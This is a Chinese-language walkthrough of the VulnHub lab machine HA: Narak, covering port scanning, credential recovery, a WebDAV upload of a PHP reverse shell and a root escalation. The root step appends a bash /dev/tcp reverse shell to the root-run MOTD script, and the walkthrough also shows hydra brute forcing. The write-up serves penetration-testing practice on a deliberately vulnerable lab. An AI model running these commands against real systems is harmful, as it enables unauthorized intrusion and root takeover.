# 前言

### 靶场介绍

HA: NARAK 是一台以印度神话为主题的 VulnHub 靶机，难度适中，涵盖以下知识点：

- Nmap 信息收集与漏洞扫描
- TFTP 枚举与文件下载
- WebDAV 认证与 PUT 方法上传 Webshell
- Base64 解码获取凭据
- 目录扫描（dirsearch / gobuster）
- Brainfuck 编码解密
- 可写文件提权（/mnt/hell.sh + motd）

### 靶场信息

| 字段     | 值                                           |
| ------ | ------------------------------------------- |
| 靶机名    | HA: Narak                                   |
| 靶机 IP  | 192.168.200.128                             |
| 靶机 URL | https://www.vulnhub.com/entry/ha-narak,569/ |
| 下载（镜像） | https://download.vulnhub.com/ha/narak.ova   |

### 思维导图



---
# 1. 信息收集

## 1.1 Nmap 信息扫描

### 端口扫描

主机探测完成后进行端口扫描，共发现两个有效端口。

```bash
nmap -sT -p- --min-rate 10000 192.168.200.128 -oA ports
```



---

### 详细信息

```bash
nmap -sT -sC -sV -O -p22,80 192.168.200.128 -oA detials
```



---

### 漏洞扫描

漏洞扫描耗时较长，可以与后续的探测同步进行。

```bash
nmap --script=vuln -p22,80 192.168.200.128 -oA vuln
```



扫描结果中发现了两个有意思的目录，后续可以重点跟进，不过常规扫描不能有遗漏。

```text
 http-enum:

|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

|_  /webdav/: Potentially interesting folder (401 Unauthorized)
```

---

### UDP 扫描

补了一个 UDP 扫描，确保没有遗漏开放的 UDP 服务。

```bash
nmap -sU --top-ports 20 192.168.200.128 -oA udp
```



好在做了这一步，不然会遗漏重要信息。扫描发现了两个开放的服务：

```text
68/udp    open|filtered dhcpc

69/udp    open|filtered tftp
```

---

## 1.2 Web 探测

### 目录枚举（dirsearch）

```bash
dirsearch -u "http://192.168.200.128/" -oA dirs.txt
```



```text
# 关键结果：
[04:35:01] 301 -  319B  - /images  ->  http://192.168.200.128/images/
[04:35:01] 200 -  706B  - /images/
[04:35:08] 403 -  280B  - /server-status
[04:35:13] 401 -  462B  - /webdav/          # <-- 需要认证
[04:35:13] 401 -  462B  - /webdav/index.html
```

Web 主页是一个图片展示页面，虽然图片数量较多，理论上存在图片隐写的可能，但优先级不高，暂时放弃，先去探索其他方向。

#### /webdav

访问该路径需要通过 HTTP 基本认证，简单尝试了几个弱密码均无果，后续可能需要进行爆破或在系统中寻找相关凭证。



这里尝试使用常见弱密码字典进行爆破：

```bash
hydra -L /usr/share/wordlists/metasploit/http_default_users.txt \
      -P /usr/share/wordlists/metasploit/http_default_pass.txt \
      192.168.200.128 http-get /webdav/
```

暴力破解无果，决定转去收集相关凭证信息。

---
### 目录扫描（gobuster）

dirsearch 没扫出什么有价值的东西，换 gobuster 配合更大字典重扫，并加上限定后缀名，主要目的是寻找凭证相关文件。

> 补充扫描时推荐加上 gobuster 默认不扫的扩展名，比如：zip、bak、rar、sql、txt

```bash
gobuster dir -u http://192.168.200.128 \
    -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
    -x php,html,txt,bak \
    -t 50
```



果然发现了之前遗漏掉的信息。

```text
/tips.txt
```

访问 `http://192.168.200.128/tips.txt`，内容提示凭据在 `creds.txt` 里。


---
## 1.3 TFTP 探测

UDP 扫描发现 `69/udp open|filtered tftp`。TFTP 是一个基于 UDP 的轻量级文件传输工具，虽然无法列目录，但可以通过已知文件名直接尝试下载。

结合 tips.txt 的提示，通过 TFTP 下载 `creds.txt`：



文件中存放了一段 Base64 编码的密文：

```bash
$ cat creds.txt 
eWFtZG9vdDpTd2FyZw==
```

解码得到明文凭据：

```bash
$ cat creds.txt | base64 -d > bd.txt
$ cat bd.txt
yamdoot:Swarg
```

---

# 2. 渗透阶段

## 2.1 WebDAV Webshell 上传

拿到凭据后尝试登录 `/webdav/`，页面空白但认证成功。查询相关资料得知，WebDAV 是 HTTP 协议的文件管理扩展，原生支持 PUT 方法直接上传文件，不需要表单入口。

注意这里 WebDAV 使用的是 Digest 认证（而非 Basic Auth），curl 需要加 `--digest` 参数才能完成两步握手流程。

当然在上传文件之前，可以用 davtest 检查 WebDAV 支持哪些操作权限：

```bash
$ davtest -url http://192.168.200.128/webdav -auth yamdoot:Swarg
```



确认可以上传 PHP 文件，且 Checking for test file execution 中显示 PHP 文件具有执行权限。



---
### Curl 方式上传

上传反弹 shell：

```bash
$ curl --digest -u 'yamdoot:Swarg' \
    -T shell.php \
    http://192.168.200.128/webdav/
```



访问 `http://192.168.200.128/webdav/shell.php` 触发反弹 shell，本地监听端口成功收到连接获得 **WebShell**。



---
### Cadaver 方式上传

相比 curl 的繁琐，其实有很多 WebDAV 工具可以直接交互连接：

```bash
$ cadaver http://192.168.200.128/webdav
```



---
# 3. 提权

获得 webshell 后，先升级到交互式 shell：

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## 3.1 横向移动

对系统进行了基础的信息收集，检查 SUID 文件权限、定时任务、版本信息等，均没有收获。用已知凭据尝试切换到其他用户也没有成功。

随后翻看 `/home` 目录，在 `inferno` 用户目录下找到了 user flag：

```bash
www-data@ubuntu:/home$ ls -liah inferno
total 24K
1062644 drwxr-xr-x 2 inferno inferno 4.0K Sep 22  2020 .
1048577 drwxr-xr-x 5 root    root    4.0K Sep 22  2020 ..
1062646 -rw-r--r-- 1 inferno inferno  220 Sep 22  2020 .bash_logout
1062647 -rw-r--r-- 1 inferno inferno 3.7K Sep 22  2020 .bashrc
1062648 -rw-r--r-- 1 inferno inferno  807 Sep 22  2020 .profile
1062650 -rw-r--r-- 1 root    root      41 Sep 22  2020 user.txt   # <-- 但当前用户能直接读
```

```bash
www-data@ubuntu:/home$ cat inferno/user.txt
Flag: {5f95bf06ce19af69bfa5e53f797ce6e2}
```

找到 user flag 还不够，目标是提权。继续查找当前用户可写的文件，发现了一个有意思的 shell 脚本，所有用户均有写权限，所属用户是 root，但问题是我无法直接执行它，需要想办法让其他用户去触发。

这里走了一段弯路，一直想在当前用户下直接完成提权。回过头来看，这个 shell 脚本里其实藏了一段加密密文，仔细查看文件内容：

```bash
www-data@ubuntu:/home$ find / -writable -type f ! -path '/proc/*' 2>/dev/null

find / -writable -type f ! -path '/proc/*' 2>/dev/null

/mnt/hell.sh**
```



打过 CTF 的人应该对这串文字很熟悉，这是一段 Brainfuck 编码。

在 Kali 中安装 beef 解释器运行后得到凭据：



```text
chitragupt
```

在获得密文之后，我们可以再次尝试对其他用户进行横向移动，用 SSH 去连接我们之前看到的几个用户。

```bash
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
yamdoot:x:1001:1001:,,,:/home/yamdoot:/bin/bash
inferno:x:1002:1002:,,,:/home/inferno:/bin/bash
```

用这个密码切换到 inferno 用户：

```bash
┌──(kali㉿kali)-[~/vulnhub/ha_narak/web]
└─$ ssh inferno@192.168.200.128   
# 输入密码：chitragupt
```

成功切换到 inferno。



---
## 3.2 信息收集（inferno）

### 可写文件

```bash
inferno@ubuntu:~$ find / -writable -type f ! -path '/proc/*' 2>/dev/null
```



发现两处可利用点：`/mnt/hell.sh` 和 `/etc/update-motd.d/` 下的多个脚本。

## 3.3 提权利用

`/etc/update-motd.d/` 里的脚本会在用户 SSH 登录时以 **root 权限**执行，可以利用 MOTD 机制完成提权——将反弹 shell 写入其中，SSH 登录时即可获取 root 权限。

往 `00-header` 写入反弹 shell ：

```bash
echo '/bin/bash -c "bash -i >& /dev/tcp/192.168.200.142/4443 0>&1"' \
    >> /etc/update-motd.d/00-header
```



本地开启监听：

```bash
nc -lvnp 4443
```

SSH 登录 inferno 触发 motd 执行：

```bash
ssh inferno@192.168.200.128
```

成功收到 root shell，提权完成。



root.txt

